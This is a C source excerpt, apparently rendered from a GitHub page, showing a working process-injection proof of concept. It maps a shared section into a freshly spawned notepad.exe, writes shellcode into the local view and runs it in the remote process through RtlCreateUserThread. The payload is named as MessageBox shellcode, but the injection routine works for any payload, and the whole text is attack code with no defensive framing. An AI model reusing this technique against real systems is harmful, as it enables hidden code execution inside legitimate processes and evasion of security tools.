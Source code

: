 ```C
	// Map section to local process
	//
	ntStatus = pNtMapViewOfSection(hSection, GetCurrentProcess(), &pLocalSectionAddress, 0, 0, NULL, &dwReqBufSize, 2, 0, PAGE_READWRITE);
	if (!NT_SUCCESS(ntStatus)) {
		return ntStatus;
	}

	//
	// Create host process
	//
	ZeroMemory(&startupInfo, sizeof startupInfo);
	startupInfo.cb = sizeof startupInfo;
	ZeroMemory(&processInformation, sizeof processInformation);

	if (!CreateProcessA(NULL, "\"notepad.exe\"", NULL, NULL, FALSE,
		DETACHED_PROCESS, NULL, NULL, &startupInfo, &processInformation)) {
		return STATUS_OPEN_FAILED;
	}

	dwPid = processInformation.dwProcessId;
	if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid)) == INVALID_HANDLE_VALUE) {
		lRetVal = STATUS_OPEN_FAILED;
		goto lblCleanup;
	}

	//
	// Map section to target process
	//
	ntStatus = pNtMapViewOfSection(hSection, hProcess, &pRemoteSectionAddress, 0, 0, NULL, &dwReqBufSize, 2, 0, PAGE_EXECUTE_READ);
	if (!NT_SUCCESS(ntStatus)) {
		lRetVal = ntStatus;
		goto lblCleanup;
	}
	
	//
	// copy shellcode to the local view, which will get reflected in the target process's mapped view
	//
	memcpy(pLocalSectionAddress, bMessageboxShellcode64, sizeof bMessageboxShellcode64);

	//
	// Call thread on section in remote process
	//
	ntStatus = pRtlCreateUserThread(hProcess, NULL, FALSE, 0, 0, 0, pRemoteSectionAddress, NULL, &hThread, NULL);
	if (!NT_SUCCESS(ntStatus)) {
		lRetVal = ntStatus;
	}
	
lblCleanup:
	if (processInformation.hProcess) {
		CloseHandle(processInformation.hProcess);
	}

	if (processInformation.hThread) {
		CloseHandle(processInformation.hThread);
	}
	
	return lRetVal;
}
```